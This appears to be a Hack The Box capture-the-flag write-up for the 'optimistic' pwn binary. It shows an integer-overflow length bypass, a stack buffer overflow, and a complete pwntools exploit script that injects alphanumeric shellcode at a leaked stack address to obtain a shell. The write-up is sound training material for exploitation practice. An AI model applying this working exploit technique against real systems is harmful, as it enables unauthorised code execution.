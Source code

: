 ```yaml
---

title: HTB [OPTIMISTIC] [PWN]

date: 2022-06-03 02:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

---
```


## optimistic

**Challenge description:**

> Are you ready to feel positive?


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

- **NX disabled** ,Seems like here also we need to execute the shellcode

![](https://i.imgur.com/tihwCaQ.png)
- If we enter 'y' then we can able to get a stack leak
- And there are few more input prompts, let's see that one by  one

**Decompile main()**

```c
void main(void)

{
  int iVar1;
  ssize_t sVar2;
  uint local_84;
  undefined4 local_80;
  undefined2 local_7c;
  char option;
  undefined local_79;
  undefined auStack120 [8];
  undefined auStack112 [8];
  char local_68 [96];
  
  initialize();
  puts("Welcome to the positive community!");
  puts("We help you embrace optimism.");
  printf("Would you like to enroll yourself? (y/n): ");
  iVar1 = getchar();
  option = (char)iVar1;
  getchar();
  if (option != 'y') {
    puts("Too bad, see you next time :(");
    local_79 = 0x6e;
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Great! Here\'s a small welcome gift: %p\n",&stack0xfffffffffffffff8);
  puts("Please provide your details.");
  printf("Email: ");
  sVar2 = read(0,auStack120,8);
  local_7c = (undefined2)sVar2;
  printf("Age: ");
  sVar2 = read(0,auStack112,8);
  local_80 = (undefined4)sVar2;
  printf("Length of name: ");
  __isoc99_scanf(&DAT_00102104,&local_84);
  if (0x40 < (int)local_84) {
    puts("Woah there! You shouldn\'t be too optimistic.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  printf("Name: ");
  sVar2 = read(0,local_68,(ulong)local_84);
  local_84 = 0;
  while( true ) {
    if ((int)sVar2 + -9 <= (int)local_84) {
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)local_68[(int)local_84]);
    if ((iVar1 == 0) && (9 < (int)local_68[(int)local_84] - 0x30U)) break;
    local_84 = local_84 + 1;
  }
  puts("Sorry, that\'s an invalid name.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

- Email & age seems safe
- But there's a length input
- We can enter the size of the length that gonna get input from us after few lines
- But there's a condition check, we can't give more than `0x40` bytes
- If we do that program will exit

![](https://i.imgur.com/q6P0WwA.png)
- Here we need to notice that the length input is an unsigned integer, so there's a integer overflow here
- Challenge's description also denotes that
- If we give `-1` as input then we can able to change that value into a largest possible unsigned integer 
- Now we can able to do buffer overflow

**Exploitation part:**
- Simply generate a pattern and find the offset to RIP
- RIP offset => 104
- But there's a problem

```c
  while( true ) {
    if ((int)sVar2 + -9 <= (int)local_84) {
      puts("Thank you! We\'ll be in touch soon.");
      return;
    }
    iVar1 = isalpha((int)local_68[(int)local_84]);
    if ((iVar1 == 0) && (9 < (int)local_68[(int)local_84] - 0x30U)) break;
    local_84 = local_84 + 1;
  }
```
- There's a check here, our payload need to be larger than `57` Ascii value
- Which means we need only alpha numeric chars
- Let's search for alphanumeric shellcode
- This one looks good [click here](https://www.exploit-db.com/shellcodes/35205)
- So our full exploit be like
- Also remember we need to subtract 96 from the stack leak, our buffer starts before  96 bytes from the leak

**Exploit script:**

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("optimistic",checksec=False)
p = elf.process()
p = remote('188.166.172.138',30591)


# getting leak
p.sendlineafter('y/n): ','y')
p.recvuntil('gift: ')
stack_leak = int(p.recvline().decode(),16)

# filling rest
p.sendlineafter('Email: ','jo')
p.sendlineafter('Age: ','19')
p.sendlineafter('name: ','-1')

# crafting payload
payload = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
payload += b'A'*(104 - len(payload)) # junk
payload += p64(stack_leak-96) # stack base

# sending exploit & getting shell
p.sendlineafter('Name: ',payload)
p.interactive()
```

![](https://i.imgur.com/xoI4oQv.png)
- Cool it worked!
